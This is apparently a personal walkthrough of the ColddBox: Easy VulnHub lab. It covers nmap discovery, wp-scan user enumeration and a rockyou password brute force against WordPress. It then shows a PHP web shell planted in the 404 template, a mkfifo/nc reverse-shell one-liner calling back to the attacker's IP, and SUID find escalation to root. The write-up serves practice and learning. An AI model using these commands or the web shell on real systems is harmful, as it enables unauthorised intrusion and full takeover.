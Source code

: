 # ColddBox: Easy

https://www.vulnhub.com/entry/colddbox-easy,586/

Just a warmup, as its been a while. Actually spent most of my time working on a new setup, using kali via WSL2. The biggest issue was catching a reverse shell, which because of how WSL2 works, seems to not be possible for now. Instead I used ncat for windows, via the nmap repo: https://nmap.org/download.html, but then had to fight a war with my own firewall to get it to catch something. Anyway!

1. Found the host only virtual box hosted vm via `nmap -sP 192.168.154.0/24` - that IP range being what I have configured for virtual box.
2. A scan of the machine revealed `80`, and a random port that turned out to be SSH.
3. On port `80` was a wordpress site. I ran `wp-scan` and got a list of users via `-e u`
4. Feeding these users and `rockyou.txt` back into `wp-scan` (`-U <list of users> -P <path to rockyou>`) I got a password within 0.16% of rockyou for the user `c0ldd`
5. Via this user/password, I logged into the admin portal and customised the `404.php` template with a one liner reverse shell: `<?php echo shell_exec($_GET['e'].' 2>&1'); ?>`
  - with this, accessing `?p=1337&e=ls` would list files, so I had rce. I found there was `/hidden` path this way, but it didn't matter by this point.
  - the user was `www-data`, as usual. while messing with my reverse shell shenanigans, I also established step 7 at this point.
6. Starting up `ncat.exe -nvlp 1337` on my windows machine, I caught a reverse shell via `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.154.1 1337 >/tmp/f`
7. A `find / -perm -u=s 2>/dev/null` revealed `/usr/bin/find` under the suid list.
8. Running `/usr/bin/find . -exec /bin/sh -p \; -quit` got me a root shell.
9. There was a user flag, and root flag, both readable at this point (Er, but in spanish or something similar, after base64 decoding :)

And that's all she wrote!
